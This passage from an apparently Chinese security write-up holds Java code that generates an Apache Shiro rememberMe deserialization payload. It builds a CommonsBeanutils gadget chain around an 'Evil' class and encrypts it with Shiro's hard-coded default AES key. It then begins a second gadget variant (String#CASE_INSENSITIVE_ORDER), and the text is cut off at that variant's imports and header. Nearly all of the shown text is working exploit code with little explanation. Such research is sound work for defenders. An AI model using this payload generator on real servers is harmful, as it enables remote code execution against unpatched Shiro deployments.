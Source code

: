 ```
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());

        byte[] payloads = new CommonsBeanutilsAttrCompare().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }

}

```

最终实际结果

![](https://img-blog.csdnimg.cn/0a6fb4c59be54d3d95fc711a8354e6f1.gif)


----

### String#CASE_INSENSITIVE_ORDER

该类在p牛文章详细介绍了，这里直接贴代码吧。

```
package summersec.shirodemo.Payload;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @ClassName: CommonsBeanutils1Shiro
 * @Description: TODO
 * @Author: Summer
 * @Date: 2021/5/19 16:23
 * @Version: v1.0.0
 * @Description: 参考https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html
 **/
```